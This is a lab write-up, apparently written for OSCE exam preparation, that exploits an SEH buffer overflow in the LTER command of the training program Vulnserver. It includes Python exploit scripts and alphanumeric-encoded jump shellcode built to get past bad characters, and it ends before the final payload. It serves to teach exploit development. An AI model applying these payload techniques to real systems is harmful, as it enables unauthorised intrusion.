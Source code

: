 ```yaml
---
title: Vulnserver LTER SEH buffer overflow
tags: OSCE
key: 20190801
comments: true
---
```


So one day, I was preparing for OSCE, I fire up vulnserver and try to mess around with one of their vulnerable command, LTER that I discovered by spike. Little did I know, this one is much harder than I thought.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/vulnserver/LTER-1.png"/>
When the POC crash, we can see that EIP is not overwritten, however, if we look at the SEH chain, we can find that it got overwritten to our payload. So, this is going to be a SEH buffer overflow.

We use pattern create and !mona findmsp to get the location of nSEH and SEH
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/LTER-2.png"/>
nSEH at 3515 and SEH at 3519, looks good. However, we only get 52 bytes after that, which clearly is not enough for a reverse shell. Looks like a job for egghunter?

With the help of !mona seh, we get the address for a pop pop retn instruction.
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/LTER-3.png"/>
Here, I choose 0x6250120B which I got lucky here, you will know why later.

Then, I add a jmp short to jump over the address after the redirection to nSEH and here's where the nightmare began. 
```python
#!/usr/bin/python
import socket
import sys
#6250120B
RHOST = '192.168.170.129'
RPORT = 9999
length = 5000
string = "LTER /.:/" + "\x46" * 3515
string += "\xEB\x0B\x90\x90" + "\x0B\x12\x50\x62"
string += "\x46" * (length -len(string))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((RHOST,RPORT))
s.recv(1024)
s.send(string)
s.close()
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/LTER-4.png"/>
See where our short jump should be? \xEB got converted to \x6C and \x90 got converted to \x11. Since like both of them are bad characters. That's not a big deal, I can use a conditional jump instead.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/LTER-5.png"/>
Here I use \x77 to make a conditional jump when both CF and ZF are equal 0. The jump is working quite well. Before we put our shellcode inside, lets check for bad characters.

We all knew that \xEB and \x90 are bad characters, how about the others? The truth is...
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/LTER-6.png"/>
The truth is every single bytes after \x7F got converted and we cannot use them. Not even our egghunter cause after we encode it, the size will be larger that the space we have. We will need to find some way to get more space. 

How about we jump to the middle of our payload? it's possible but we can't just put \xFF in our payload and make the jump. To solve this problem, we will redirect where our ESP is pointing at and use push to push the shellcode we need. Which result in these shellcode.
```python
#!/usr/bin/python
import socket
import sys

jump = "\x60\x54\x58\x54\x5B\x66\x05\x79\x13\x50\x5C\x25\x41\x41\x41\x41\x25\x3E\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66\x05\x41\x41\x66\x05\x69\x03\x50"
jump2 = "\x53\x58\x66\x05\x62\x01\x66\x05\x62\x01\x66\x05\x62\x01\x66\x05\x62\x01\x50\x5F\x04\x02\x50\x59\x66\x05\x77\x07\x66\x05\x41\x06\x50\x5C\x25\x41\x41\x41\x41\x25\x3E\x3E\x3E\x3E\x05\x41\x41\x41\x41\x66\x05\x41\x41\x66\x05\x7D\x65\x50"

RHOST = '192.168.170.129'
RPORT = 9999
length = 5000
string = "LTER /.:/" + "\x46" * 3
string += "\x53\x5C" + "\x46" * (3515-3-2-64)
string += jump2
string += "\x46" * (64-len(jump2))
string +="\x42\x42\x77\x04" + "\x0B\x12\x50\x62"
string += jump
string += "\x46" *(length - len(string))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((RHOST,RPORT))
s.recv(1024)
s.send(string)
s.close()
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/LTER-7.png"/>
The first jump will redirect ESP to the end of the payload so that we can write some shellcode at the end. The distance between ESP and the end of the payload is around 0x1379 so we use eax to do the calculation and ebx to store the original value of esp.

P.S. you do not need the PUSHAD, I am just lazy to recalculate all the stuff to align ESP. just minus 32 bytes if you want to get rid of the PUSHAD
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/LTER-8.png"/>
This jump help us to create more space so that we can make a further jump to our shellcode.

The second jump looks like this
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/LTER-9.png"/>
